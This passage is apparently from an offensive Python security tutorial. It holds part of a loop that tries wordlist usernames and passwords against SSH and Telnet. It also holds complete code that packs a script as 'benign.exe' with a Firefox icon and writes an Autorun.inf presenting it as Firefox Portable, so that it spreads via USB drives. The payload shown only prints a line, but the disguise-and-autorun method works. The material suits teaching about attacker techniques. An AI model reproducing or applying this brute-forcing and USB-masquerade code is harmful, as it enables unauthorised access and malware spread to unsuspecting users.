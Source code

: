 ```python
				# splitting as the username and password are mentioned in the single line.
        vals = line.split()
				# index 0 is username and index 1 is password
        username = vals[0].strip()
        password = vals[1].strip()
				
				
        SSHLogin(host,port,username,password)
        TelnetLogin(host,port,username,password)
```

### 2. Replication Through Removable Media

### shutil

[shutil - High-level file operations - Python 3.10.5 documentation](https://docs.python.org/3/library/shutil.html)

### Autorun Scripts Using shutil, pyinstaller

[Firefox.ico](Python%20For%20Cybersecurity%20eb6905ebe9ef4a52a99d8d69de193b6a/Firefox.ico)

```python
print("I am a malicious program.")
```

```python
import PyInstaller.__main__
import shutil
import os

filename = "malicious.py"
exename = "benign.exe"
icon = "Firefox.ico"
pwd = os.getcwd()
usbdir = os.path.join(pwd,"USB")

if os.path.isfile(exename):
    os.remove(exename)

# Create executable from Python script
PyInstaller.__main__.run([
    "malicious.py",
    "--onefile",
    "--clean",
    "--log-level=ERROR",
    "--name="+exename,
    "--icon="+icon
])

# Clean up after Pyinstaller
shutil.move(os.path.join(pwd,"dist",exename),pwd)
shutil.rmtree("dist")
shutil.rmtree("build")
shutil.rmtree("__pycache__")
os.remove(exename+".spec")

# Create Autorun File
with open("Autorun.inf","w") as o:
    o.write("(Autorun)\n")
    o.write("Open="+exename+"\n")
    o.write("Action=Start Firefox Portable\n")
    o.write("Label=My USB\n")
    o.write("Icon="+exename+"\n")

```